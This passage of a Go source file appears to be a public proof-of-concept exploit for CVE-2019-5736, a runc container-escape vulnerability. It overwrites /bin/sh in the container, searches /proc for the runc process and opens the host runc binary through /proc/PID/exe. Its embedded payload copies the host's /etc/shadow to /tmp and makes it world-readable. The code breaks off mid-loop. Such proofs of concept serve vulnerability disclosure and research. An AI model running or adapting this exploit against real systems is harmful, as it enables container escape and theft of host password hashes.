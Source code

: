 https://github.com/Frichetten/CVE-2019-5736-PoC

```go
package main

// Implementation of CVE-2019-5736
// Created with help from @singe, @_cablethief, and @feexd.
// This commit also helped a ton to understand the vuln
// https://github.com/lxc/lxc/commit/6400238d08cdf1ca20d49bafb85f4e224348bf9d
import (
    "fmt"
    "io/ioutil"
    "os"
    "strconv"
    "strings"
)

// This is the line of shell commands that will execute on the host
var payload = "#!/bin/bash \n cat /etc/shadow > /tmp/shadow && chmod 777 /tmp/shadow"

func main() {
    // First we overwrite /bin/sh with the /proc/self/exe interpreter path
    fd, err := os.Create("/bin/sh")
    if err != nil {
        fmt.Println(err)
        return
    }
    fmt.Fprintln(fd, "#!/proc/self/exe")
    err = fd.Close()
    if err != nil {
        fmt.Println(err)
        return
    }
    fmt.Println("[+] Overwritten /bin/sh successfully")

    // Loop through all processes to find one whose cmdline includes runcinit
    // This will be the process created by runc
    var found int
    for found == 0 {
        pids, err := ioutil.ReadDir("/proc")
        if err != nil {
            fmt.Println(err)
            return
        }
        for _, f := range pids {
            fbytes, _ := ioutil.ReadFile("/proc/" + f.Name() + "/cmdline")
            fstring := string(fbytes)
            if strings.Contains(fstring, "runc") {
                fmt.Println("[+] Found the PID:", f.Name())
                found, err = strconv.Atoi(f.Name())
                if err != nil {
                    fmt.Println(err)
                    return
                }
            }
        }
    }

    // We will use the pid to get a file handle for runc on the host.
    var handleFd = -1
    for handleFd == -1 {
        // Note, you do not need to use the O_PATH flag for the exploit to work.
        handle, _ := os.OpenFile("/proc/"+strconv.Itoa(found)+"/exe", os.O_RDONLY, 0777)
        if int(handle.Fd()) > 0 {
```